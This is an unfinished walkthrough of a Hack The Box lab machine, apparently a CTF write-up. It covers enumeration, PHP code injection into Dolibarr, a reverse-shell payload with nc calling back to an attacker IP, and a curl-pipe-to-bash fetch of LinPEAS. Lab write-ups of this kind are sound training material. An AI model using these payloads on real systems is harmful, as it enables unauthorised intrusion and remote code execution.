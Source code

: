 *Not finished*

nmap:

```
nmap -sC -sV {target ip}
```

Added the domain and ip to the hosts file:

```
echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
```

Gobuster to enumerate vhosts:

```
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://board.htb
```

Uploads a PHP file to HTML input in Dolibarr to check for reverse shell vuln:

```
<?PHP echo system("whoami");?>
```

It is successful!

Run netcat locally:

```
nc -lnvp 4455
```

Use the payload to get the shell:

```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4455 >/tmp/f");?>
```

Run this command to get a more stable shell, sending the output to `/dev/null`

```
 script /dev/null -c /bin/bash
 ```

Download LinPEAS locally, then set up a webserver locally, and curl LinPEAS from the attacking box

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

sudo python3 -m http.server 3000
```

```
curl http://10.10.14.41:3000/linpeas.sh|bash
```


